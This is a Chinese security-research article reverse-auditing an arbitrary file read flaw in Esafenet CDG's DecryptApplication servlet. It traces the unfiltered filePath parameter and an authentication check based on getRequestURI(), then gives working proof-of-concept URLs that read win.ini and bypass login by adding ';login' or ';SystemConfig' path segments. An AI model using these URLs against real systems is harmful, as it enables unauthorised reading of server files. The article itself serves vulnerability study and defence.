# 亿赛通 DecryptApplication 任意文件读取漏洞逆向代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/19329  
> **文章ID**: 19329

---

## 一、系统介绍

亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。

​



## 二、项目构成

查看项目文件，这个系统项目没有maven管理依赖，也没有pom.xml文件，只有JSP，是传统的基于 Servlet+JSP+自定义控制器实现的JavaWeb项目。

​



## 三、代码分析

（1）通过已公开的POC得知，漏洞URL是**https://127.0.0.1/CDGServer3/client/DecryptApplication**，在web.xml中查找对应的Servlet映射路径，发现了/client/DecryptApplication映射的对应包是com.esafenet.servlet.client.DecryptApplicationService。

​



（2）进入com.esafenet.servlet.client.DecryptApplicationService类中，发现该类继承WebController，进入WebController。

​



（3）WebController中，service主要进行了如下操作：

①反射调用方法，将action拼接至command所传入的参数值，所以command传入的参数实际是“action”+command方法；

②获取command、fromurl参数，判断表单是否重复提交；

③通过request.getRequestURI()获取uri，赋值给clienturl，使用了request.getRequestURI()方法获取路径，如果使用该方法获取的路径进行权限判断是极易出现权限绕过漏洞的，这也为后面的权限绕过埋下了伏笔；

④进入if判断条件，因为&&优先级要大于||，所以这个判断条件只需满足其中一条即可：1、uri不为空且包含login或SystemConfig，2、loginMng不为空且保持登录状态；

⑤否则重定向至/loginExpire.jsp

​



（4）回到com.esafenet.servlet.client.DecryptApplicationService类中，分析actionViewUploadFile方法，发现其主要操作是根据用户传入的参数，从服务器下载一个已上传的文件：

①从请求中获取3个参数：uploadFileId-数据库中存储的文件ID，fileName1-下载时显示给用户的文件名，filePath-服务器上的实际文件路径

②将传入的参数传递给model层的downLoadFile方法执行实际下载

​



（5）进入downLoadFile方法，发现仅对uploadFileId检查是否为空，然后用filePath构造File对象，检查文件是否存在，如果文件存在则调用自写的工具类CDGUtil.downFile下载。

​



（6）进入CDGUtil.downFile，为常规的文件输入流输出流字节流的下载操作。

​



（7）至此，整个漏洞流程分析完毕，通过传入的文件路径参数是前端可控的，且没有任何危险字符过滤，进而造成了任意文件读取漏洞。

## 四、漏洞复现

通过已公开的POC得知，漏洞URL是**https://127.0.0.1/CDGServer3/client/DecryptApplication**，然后通过分析得知再传入command函数方法，filePath要读取下载的文件，以及uploadFileId文件ID和fileName1文件名，

可以是POST请求，也可以是GET请求，因为RsDispatcherServlet类中的doGet方法其实也是调用的doPost方法访问。

​



​

**https://127.0.0.1/CDGServer3/client/DecryptApplication?command=ViewUploadFile&filePath=C://Windows/win.ini&uploadFileId=1&fileName1=1**

​



由于这里进入了本文**三-（3）-④⑤**提及的没有满足if判断条件，所以被重定向至了/loginExpire.jsp，因此需要进一步构造包含login或SystemConfig，且不影响路径访问的方法，经过测试，使用了request.getRequestURI()方法获取路径加入；分号即可实现权限绕过，使clienturl中保留;login或者;SystemConfig。

​

构造实测都可用的2个POC：

**【https://127.0.0.1/CDGServer3/client/;login/DecryptApplication?command=ViewUploadFile&filePath=C://Windows/win.ini&uploadFileId=1&fileName1=1】**

**【https://127.0.0.1/CDGServer3/client/;SystemConfig/DecryptApplication?command=ViewUploadFile&filePath=C://Windows/win.ini&uploadFileId=1&fileName1=1】**

​





## 五、修复建议

及时升级至安全版本，关闭外网访问。

​

## 六、总结

本文主要通过已公开的漏洞中，进行逆向追踪审计，进而定位到文件下载处，提供了完全可控的文件路径，且没有过滤任何危险字符，进而造成了任意文件读取漏洞，同时权限校验存在缺陷，可使用特殊符号绕过，如有描述错误请指正。

​

​

参考链接：

<https://axsec.blog.csdn.net/article/details/136689742>
